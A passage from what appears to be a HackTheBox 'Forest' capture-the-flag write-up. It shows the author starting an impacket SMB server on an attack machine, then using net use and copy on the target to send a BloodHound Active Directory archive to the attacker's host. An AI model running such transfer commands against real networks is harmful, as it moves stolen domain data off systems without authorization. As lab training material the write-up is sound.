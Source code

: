 ![output-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Forest/img/output-11.png)

Now we need to transfer the archive over to our attack machine. To do so I start an SMB server on my attack machine using:

```bash
impacket-smbserver -smb2support -username htb -password htb forest .
```

Then, I connect to this share from the target and copy the archive over:

```powershell
net use \\10.10.14.58\forest /u:htb htb 
copy 20231201012158_BloodHound.zip \\10.10.14.58\forest
```

![copy-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Forest/img/cpy-12.png)

Now we should have the archive over on our attack machine:

![ll-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Forest/img/ll-13.png)
